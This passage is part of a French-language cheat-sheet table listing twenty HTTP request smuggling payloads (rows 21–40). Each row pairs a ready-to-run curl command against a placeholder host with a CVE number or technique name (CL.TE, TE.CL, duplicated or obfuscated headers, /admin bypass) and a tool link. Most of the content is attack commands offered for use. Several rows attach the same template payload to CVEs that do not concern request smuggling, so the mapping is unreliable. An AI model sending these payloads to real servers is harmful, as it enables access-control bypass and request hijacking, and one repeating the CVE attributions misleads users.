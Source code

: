 | 21 | CVE-2019-12384 | `curl -v -H "Content-Length: 11" --data-binary $'POST / HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | CL.CL, bypass via double Content-Length | https://github.com/portswigger/http-request-smuggler |
| 22 | CVE-2018-11776 | `curl -v -H "Transfer-Encoding: chunked" -H "Content-Length: 3" --data-binary $'8\r\nSMUGGLED\r\n0\r\n\r\n' https://target.com/` | TE.CL, accès à endpoint protégé | https://github.com/BishopFox/http-smuggler |
| 23 | CVE-2018-1000861 | `curl -v -H "Content-Length: 13" -H "Transfer-Encoding: chunked" --data-binary $'0\r\n\r\nGET /evil HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | CL.TE, smuggling sur Jenkins | https://github.com/portswigger/http-request-smuggler |
| 24 | CVE-2017-7675 | `curl -v -H "Transfer-Encoding: chunked" -H "Content-Length: 7" --data-binary $'0\r\n\r\nPOST /evil HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | TE.CL, accès à endpoint protégé | https://github.com/BishopFox/http-smuggler |
| 25 | CVE-2017-15715 | `curl -v -H "Content-Length: 13" -H "Transfer-Encoding: chunked" --data-binary $'0\r\n\r\nGET /evil HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | CL.TE, smuggling sur Apache | https://github.com/portswigger/http-request-smuggler |
| 26 | CVE-2016-8743 | `curl -v -H "Transfer-Encoding: chunked" -H "Content-Length: 3" --data-binary $'8\r\nSMUGGLED\r\n0\r\n\r\n' https://target.com/` | TE.CL, accès à endpoint protégé | https://github.com/BishopFox/http-smuggler |
| 27 | CVE-2016-5385 | `curl -v -H "Content-Length: 13" -H "Transfer-Encoding: chunked" --data-binary $'0\r\n\r\nGET /evil HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | CL.TE, smuggling sur PHP | https://github.com/portswigger/http-request-smuggler |
| 28 | CVE-2015-2080 | `curl -v -H "Transfer-Encoding: chunked" -H "Content-Length: 7" --data-binary $'0\r\n\r\nPOST /evil HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | TE.CL, accès à endpoint protégé | https://github.com/BishopFox/http-smuggler |
| 29 | CVE-2014-0226 | `curl -v -H "Content-Length: 13" -H "Transfer-Encoding: chunked" --data-binary $'0\r\n\r\nGET /evil HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | CL.TE, smuggling sur Apache | https://github.com/portswigger/http-request-smuggler |
| 30 | CVE-2013-2028 | `curl -v -H "Transfer-Encoding: chunked" -H "Content-Length: 3" --data-binary $'8\r\nSMUGGLED\r\n0\r\n\r\n' https://target.com/` | TE.CL, accès à endpoint protégé | https://github.com/BishopFox/http-smuggler |
| 31 | CL.TE générique | `curl -v -H "Content-Length: 13" -H "Transfer-Encoding: chunked" --data-binary $'0\r\n\r\nPOST /evil HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | Injection de requête sur backend | https://portswigger.net/web-security/request-smuggling |
| 32 | TE.CL générique | `curl -v -H "Transfer-Encoding: chunked" -H "Content-Length: 3" --data-binary $'8\r\nSMUGGLED\r\n0\r\n\r\n' https://target.com/` | Smuggling, exécution de requête cachée | https://portswigger.net/web-security/request-smuggling |
| 33 | CL.CL double Content-Length | `curl -v -H "Content-Length: 10" -H "Content-Length: 20" --data-binary $'POST / HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | Bypass via ambiguïté sur Content-Length | https://portswigger.net/web-security/request-smuggling |
| 34 | TE.TE double Transfer-Encoding | `curl -v -H "Transfer-Encoding: chunked" -H "Transfer-Encoding: identity" --data-binary $'0\r\n\r\nGET /evil HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | Ambiguïté sur l’encodage, smuggling possible | https://portswigger.net/web-security/request-smuggling |
| 35 | Header obfusqué | `curl -v -H "Transfer-Encoding : chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nGET /admin HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | Bypass via espace dans le header | https://portswigger.net/web-security/request-smuggling |
| 36 | Header TE en double | `curl -v -H "Transfer-Encoding: chunked" -H "Transfer-Encoding: identity" --data-binary $'0\r\n\r\nGET /admin HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | Bypass via double TE | https://portswigger.net/web-security/request-smuggling |
| 37 | TE + CL + chunked | `curl -v -H "Transfer-Encoding: chunked" -H "Content-Length: 6" --data-binary $'0\r\n\r\nGET /admin HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | Smuggling avancé, bypass ACL | https://portswigger.net/web-security/request-smuggling |
| 38 | GET smuggling | `curl -v -H "Transfer-Encoding: chunked" -H "Content-Length: 0" https://target.com/` | Injection de requête GET via chunked | https://www.brightsec.com/blog/http-request-smuggling-hrs/ |
| 39 | Smuggling via fragment | `curl -v 'https://target.com/path#smuggled'` | Fragment interprété différemment par frontend/backend | https://www.firecompass.com/unveiling-the-intricacies-of-http-smuggling-a-technical-exploration/ |
| 40 | Smuggling via double CRLF | `curl -v -H "Content-Length: 13" --data-binary $'POST / HTTP/1.1\r\nHost: target.com\r\n\r\n' https://target.com/` | Injection de requête via double CRLF | https://github.com/BishopFox/http-smuggler |

---

